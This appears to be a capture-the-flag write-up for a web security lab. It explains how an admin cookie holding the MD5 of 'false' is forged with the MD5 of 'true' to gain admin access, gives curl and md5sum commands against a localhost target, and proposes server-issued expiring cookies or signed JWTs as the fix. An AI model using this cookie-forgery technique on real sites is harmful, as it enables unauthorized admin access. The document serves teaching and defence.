

# Insecure admin cookie authentication

## 📖 Vulnerability Explanation
The token used to authenticate as an admin in the page is an md5 hash. If we crack it, the value is "false". We can generate a new token with the md5 hash of the string "true" to authenticate as the admin user.

## ⚙️ Exploitation Process
Get the hash and crack it. You can use system tools, such as ```john``` or ```hashcat```, or online services. We used ```https://crackstation.net/``` and it revealed the value for the md5 hash was the string "false".

- We can retrieve the token value using curl:
```
curl -s -I 'http://localhost:9090/index.php'
```
---
- Check the hash value:

---
- Generate the new hash for the token:
```
echo -n 'true' | md5sum
```
---
- Setting the value to the hash of the string "true" gives us the flag:
```
curl -s -H 'Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://localhost:9090/index.php' | grep Flag
```

## 🧰 Additional Resources
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The server should set the cookie for admin users after authentication. The value should not be a static hash, but a cookie controlled by the system with an expiry date.

## ☝️🤓 Advanced explanation
We advise using a **Json Web Token (JWT)** to protect the authentication system and keep the admin check implementation. This token would be signed by the server and it would also contain information about the user, such as their permissions.
This approach requires a secret to sign the tokens, but it requires less computational resources, as it avoids storing cookies in memory and querying the database to check if a user is an admin.

The json content of the JWT would look like this: 
```
{
    "email": "svetlana@BornToSec.com",
    "isAdmin": true
}
```